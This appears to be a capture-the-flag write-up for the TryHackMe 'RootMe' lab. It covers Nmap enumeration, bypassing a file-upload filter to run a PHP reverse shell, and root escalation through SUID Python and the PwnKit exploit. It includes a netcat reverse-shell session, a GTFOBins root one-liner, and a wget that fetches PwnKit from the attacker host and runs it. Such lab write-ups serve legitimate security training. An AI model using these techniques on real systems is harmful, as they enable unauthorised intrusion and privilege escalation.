# THM - RootMe

#### Ip: 10.10.0.217
#### Name: RootMe
#### Rating: Easy

----------------------------------------------------------------------


### Enumeration

Lets kick things off by scanning all TCP ports with Nmap. Here I will also use the `--min-rate 10000` flag to speed the scan up.

```text
┌──(ryan㉿kali)-[~/THM/RootMe]
└─$ sudo nmap -p-  --min-rate 10000 10.10.0.217
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-24 10:17 CDT
Warning: 10.10.0.217 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.0.217
Host is up (0.13s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 14.37 seconds
```

Lets enumerate further by scanning the open ports, but this time use the `-sC` and `-sV` flags to use basic Nmap scripts and to enumerate versions too.

```text
┌──(ryan㉿kali)-[~/THM/RootMe]
└─$ sudo nmap -sC -sV -T4 10.10.0.217 -p 22,80
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-24 10:18 CDT
Nmap scan report for 10.10.0.217
Host is up (0.13s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4ab9160884c25448ba5cfd3f225f2214 (RSA)
|   256 a9a686e8ec96c3f003cd16d54973d082 (ECDSA)
|_  256 22f6b5a654d9787c26035a95f3f9dfcd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.38 seconds
```

Navigating to the site we find this webpage:



I'm not seeing any links nor am I finding anything of interest in the page source, so lets kick off some directory fuzzing:



Cool, the /uploads and /panel directories seem interesting. Navigating to http://10.10.0.217/panel/ we see a file upload feature. Lets try using a PHP reverse shell from PentestMonkey.


### Exploitation

We'll need to go ahead and update the IP adress field, as well as add which port we'll be listening on:



After setting up a NetCat listener on port 443 we can try to upload the script:



Dang, looks like the site is filtering out the PHP extension. No problem, there are a few potential ways around this.

First lets copy the magic bytes (or file signatures) for a .png file and paste them at the beginning of the PHP shell:



From here we can save the script and it will hopefully be interpreted as an image. Lets save the script with the magic bytes as not_a_php_shell.png

We can then succesfully upload our disguised shell:


Recalling that we also found an /uploads directory, we can navigate there and trigger our exploit:



Rats, that failed as well. 


Another approach we can take is modifying the .php file extension. Perhaps the app is simply blacklisting vanilla PHP, but maybe not something like .phtml. Lets save our script now as shell.phtml and try to upload again.


And we can execute the script by clicking on the file in the /uploads directory to get a shell back on our listener:

```text
┌──(ryan㉿kali)-[~/THM/RootMe]
└─$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.6.61.45] from (UNKNOWN) [10.10.0.217] 59718
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 15:41:22 up 29 min,  0 users,  load average: 0.00, 0.00, 0.13
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ hostname
rootme
$ python3 -c 'import pty;pty.spawn("/bin/bash")'


www-data@rootme:/$
```

Nice!, Now we should be able to grab the user.txt flag:



### Privilege Escalation #1

Lets move into the `/tmp` directory and copy over LinPeas to help find the privilege escalation vector.



Cool, looks like Python has the SUID bit set. This should be a walk in the park from here on out.



Heading over to https://gtfobins.github.io/ and searching for Python, we find the exact command we'll need to escalate privileges:



Changing directories to `/usr/bin` all we need to do is run:


```text
./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
And we'll drop into a root shell, from which we can grab the root.txt flag:



### Privilege Escalation #2

Another vector identified by LinPeas was PwnKit.



This is an extremely common finding on older, upatched boxes, and can be a very quick win. Exploiting it takes just a second or two:

```text
www-data@rootme:/tmp$ wget http://10.6.61.45/PwnKit
--2023-07-24 15:59:10--  http://10.6.61.45/PwnKit
Connecting to 10.6.61.45:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 18040 (18K) [application/octet-stream]
Saving to: 'PwnKit'

PwnKit              100%[===================>]  17.62K  --.-KB/s    in 0.1s    

2023-07-24 15:59:10 (133 KB/s) - 'PwnKit' saved [18040/18040]

www-data@rootme:/tmp$ chmod +x PwnKit
www-data@rootme:/tmp$ ./PwnKit
root@rootme:/tmp# whoami
root
root@rootme:/tmp# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```
A detailed writeup of the vulnerability can be found here:

https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034

Thanks for following along!

-Ryan

---------------------------------------------------------------------


